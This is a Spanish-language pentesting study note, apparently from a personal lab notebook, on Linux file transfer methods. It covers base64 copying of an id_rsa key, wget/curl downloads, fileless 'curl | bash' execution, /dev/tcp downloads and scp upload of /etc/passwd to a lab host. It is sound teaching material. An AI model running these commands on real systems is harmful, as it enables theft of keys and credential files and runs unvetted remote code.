

repository: scarlgyx/scarlgyx-cybersecurity · page: notes/file-transfers-linux/index.html · generator: mkdocs

# Transferencia de archivos en Linux
Métodos para subir/descargar ficheros en sistemas Linux. La mayoría del malware usa **HTTP/HTTPS**, pero Linux también permite FTP, SMB, SSH, etc.

## Base64 (sin red)

Para ficheros pequeños, sin comunicación de red: codificas en origen, copias la cadena, decodificas en destino.

* Comprobar hash antes y después (para verificar la transferencia)

```bash
md5sum archivo
```

* Codificar a base64 (una sola línea con -w 0)

```bash
cat id_rsa | base64 -w 0; echo
```

* Decodificar en el destino

```bash
echo -n 'BASE64_STRING' | base64 -d > id_rsa
```

Funciona en ambos sentidos (subida y descarga).

## Descargas web (wget / curl)

* Con wget (nombre de salida con -O mayúscula)

```bash
wget https://url/LinEnum.sh -O /tmp/LinEnum.sh
```

* Con curl (nombre de salida con -o minúscula)

```bash
curl -o /tmp/LinEnum.sh https://url/LinEnum.sh
```

## Ataques fileless (sin escribir a disco)

Ejecutar directamente sin descargar, usando una tubería:

* Con curl

```bash
curl https://url/LinEnum.sh | bash
```

* Con wget (script Python)

```bash
wget -qO- https://url/helloworld.py | python3
```

## Descarga con Bash (/dev/tcp)

Cuando no hay wget ni curl (requiere Bash 2.04+ con net-redirections):

```bash
exec 3<>/dev/tcp/10.10.10.32/80
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
cat <&3
```

## SSH / SCP

SCP copia ficheros entre hosts de forma segura sobre SSH. Sintaxis parecida a `cp`, pero con usuario@IP.

* Habilitar e iniciar el servidor SSH en la Pwnbox

```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

* Descargar (del remoto a local)

```bash
scp usuario@192.168.49.128:/root/myroot.txt .
```

* Subir (de local al remoto)

```bash
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```
